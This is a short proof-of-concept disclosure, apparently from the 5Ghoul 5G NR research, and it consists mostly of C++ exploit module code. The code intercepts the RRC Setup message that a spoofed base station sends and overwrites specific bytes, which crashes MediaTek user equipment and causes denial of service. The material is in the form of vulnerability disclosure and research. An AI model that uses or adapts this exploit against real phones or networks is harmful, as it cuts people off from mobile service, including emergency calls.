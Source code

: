 **PoC Code**

The following PoC code generates a falsified packet sent from the Base Station (sender) to the User Equipment (receiver). Due to a vulnerability in the User Equipment, this packet causes the device to crash, resulting in a Denial of Service (DoS).

To compile and run this PoC code, you'll need the environment described here: https://github.com/asset-group/5ghoul-5g-nr-attacks?tab=readme-ov-file#4--create-your-own-5g-exploits-test-cases

```cpp
#include <ModulesInclude.hpp>

// Filters
wd_filter_t f1;

// Vars

const char *module_name()
{
    return "Mediatek";
}

// Setup
int setup(wd_modules_ctx_t *ctx)
{
    // Change required configuration for exploit
    ctx->config->fuzzing.global_timeout = false;

    // Declare filters
    f1 = wd_filter("nr-rrc.rrcSetup_element");

    return 0;
}

// TX
int tx_pre_dissection(uint8_t *pkt_buf, int pkt_length, wd_modules_ctx_t *ctx)
{
    // Register filters
    wd_register_filter(ctx->wd, f1);

    return 0;
}

int tx_post_dissection(uint8_t *pkt_buf, int pkt_length, wd_modules_ctx_t *ctx)
{
    if (wd_read_filter(ctx->wd, f1)) {
        wd_log_y("Malformed rrc setup sent!");
        pkt_buf[129 - 48] = 0x11;
        pkt_buf[130 - 48] = 0x7f;
        pkt_buf[152 - 48] = 0x17;
        return 1;
    }

    return 0;
}

```
